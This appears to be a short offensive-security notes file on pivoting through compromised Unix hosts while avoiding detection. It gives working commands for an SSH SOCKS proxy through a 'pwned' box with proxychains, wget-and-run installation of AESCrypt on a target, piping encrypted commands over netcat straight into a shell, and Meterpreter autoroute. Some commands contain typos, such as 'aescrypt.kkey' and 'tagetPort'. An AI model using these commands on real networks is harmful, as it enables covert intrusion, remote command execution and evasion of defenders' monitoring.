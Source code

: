 # pivoting

This focuses on pivoting undected (or at least, if you are detected, not much info can be derived from the traffic).

## tools
- [sshproxy](https://github.com/montysecurity/sshproxy)
- [cryptshell](https://github.com/montysecurity/cryptshell)

## ssh dynamic ports (scenario)

There are 3 boxes in the network, all \*nix machines. One is your attack box, the second is a box you have pwned and the third is a box you want to pwn, but you are at a delima. How do you route your traffic from the attack box, through the pwned box, to the target box?

You will need proxychains installed on the attack box and a working ssh account on the pwned box.

	On Pwned Box
		ssh -D 0.0.0.0:1337 user@localhost
	
	On Attack Box
		ssh -Nnt -D 0.0.0.0:1337 user@pwnedbox
		enter the password
		wait for the connection to establish, nothing prints to STDOUT or STDERR
		press CTRL+Z, this puts the connection in the background, you should be back at the attack box terminal
		verify the connection is still there: netstat -pan | grep 1337
		add the following line to the end of /etc/proxychains.conf: socks4 pwnedbox 1337
		prepend tool commmands with "proxychains ", in this case, proxychains nmap targetbox

### what this is actually doing...

Whenever you run the first ssh command, you are setting up a listener on pwnedbox:1337 using the "user" account, so if a ssh key is involved, remember to use -i. Pushing it to the background is so you can now have access to your tools on the attack box again. When you edit the proxychains file, you are telling the system, "any traffic ran with proxychains activated is to be forced through pwnedbox:1337 (travelling either way)". Then prepending proxychains to the commands is simply invoking the proxy

### diagrams are nice

- Attack Box --> [proxychains] --> [ssh bind on pwnedbox] --> targetbox
- Attack Box <-- [proxychains] <-- [ssh bind on pwnedbox] <-- targetbox

## aescrypt

You can encrypt commands with aescrypt pre-transit, it is easiest to do it with aescrypt and then decrypt them once they get to the traget and pipe to shell. Aescrypt commands can be swapped out with "base64" and "base64 -d" respectively if the target does not have aescrypt but this is encoding and not encryption - it is a quick and easy solution and should only be used to properly transmit the cipher text, not evading detection.

### if target does not have aescrypt

If the target does not have aescrypt, the following are shell commands to get it installed on \*nix machines

#### 32 bit

	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86-Install.gz
	chmod +x AESCrypt-GUI-3.11-Linux-x86-Install 
	./AESCrypt-GUI-3.11-Linux-x86-Install
	rm AESCrypt-GUI-3.11-Linux-x86-Install

#### 64 bit
	
	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	chmod +x AESCrypt-GUI-3.11-Linux-x86_64-Install 
	./AESCrypt-GUI-3.11-Linux-x86_64-Install
	rm AESCrypt-GUI-3.11-Linux-x86_64-Install

### transfering shell commands via aescrypt

	On Target Box
		nc -lnvp targetPort > aescrypt.key
	On Attack Box
                aescrypt_keygen -g 64 aescrypt.key && nc targetBox targetPort < aescrypt.kkey
	On Target Box
		nc -lnvp targetPort | aescrypt -d -k aescrypt.key - | sh
	On Attack Box
		echo "bash commands" | aescrypt -e -k aescrypt.key - | nc targetBox tagetPort

## meterpreter

run post/multi/manage/autoroute
